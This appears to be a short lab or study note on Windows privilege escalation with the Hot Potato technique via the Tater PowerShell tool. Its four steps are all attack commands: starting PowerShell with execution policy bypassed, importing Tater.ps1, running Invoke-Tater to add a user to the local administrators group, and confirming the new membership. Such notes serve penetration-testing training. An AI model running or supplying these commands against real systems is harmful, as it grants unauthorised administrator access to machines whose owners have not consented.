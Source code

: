 #Windows #PrivEsc #Potato #HotPotato #PowerShell #Tater 

## **Exploitation**

Windows VM

1. In command prompt type: `powershell.exe -nop -ep bypass`
2. In Power Shell prompt type: `Import-Module C:\Users\User\Desktop\Tools\Tater\Tater.ps1`
3. In Power Shell prompt type: `Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"`
4. To confirm that the attack was successful, in Power Shell prompt type: `net localgroup administrators`